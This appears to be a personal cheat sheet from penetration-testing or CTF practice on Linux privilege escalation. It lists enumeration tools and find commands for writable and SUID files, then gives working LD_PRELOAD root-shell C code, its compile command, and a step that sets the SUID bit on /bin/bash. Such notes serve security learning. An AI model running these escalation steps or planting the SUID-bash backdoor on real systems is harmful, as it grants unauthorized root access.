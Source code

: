 # Linux Enumeration
---
## Tools & Resources
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

- LinEnum: https://github.com/rebootuser/LinEnum

- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester

- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration

- Linux Priv Checker: https://github.com/linted/linuxprivchecker

- Priv Esc Resource: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
---
- cat /etc/passwd | cut -d ":" -f 1

- find . -name flag1.txt: find the file named “flag1.txt” in the current directory

- find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory

- find / -type d -name config: find the directory named config under “/”

- find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)

- find / -perm a=x: find executable files

- find /home -user frank: find all files for user “frank” under “/home”

- find / -mtime 10: find files that were modified in the last 10 days

- find / -atime 10: find files that were accessed in the last 10 day

- find / -cmin -60: find files changed within the last hour (60 minutes)

- find / -amin -60: find files accesses within the last hour (60 minutes)

- find / -size 50M: find files with a 50 MB size

- find / -writable -type d 2>/dev/null : Find world-writeable folders

- find / -perm -222 -type d 2>/dev/null: Find world-writeable folders

- find / -perm -o w -type d 2>/dev/null: Find world-writeable folders

- find / -perm -o x -type d 2>/dev/null : Find world-executable folders

- find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

sudo -l - see what can be run as sudo for current user
---
if LD_PRELOAD in sudo -l output

Check for LD_PRELOAD (with the env_keep option)
Write a simple C code compiled as a share object (.so extension) file
Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
The C code will simply spawn a root shell and can be written as follows;
#include <stdio.h>

#include <sys/types.h>

#include <stdlib.h>

void _init() {

unsetenv("LD_PRELOAD");

setgid(0);

setuid(0);

system("/bin/bash");

}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

gcc -fPIC -shared -o shell.so shell.c -nostartfiles

set suid bit on /bin/bash (chmod +s /bin/bash)

run bash -p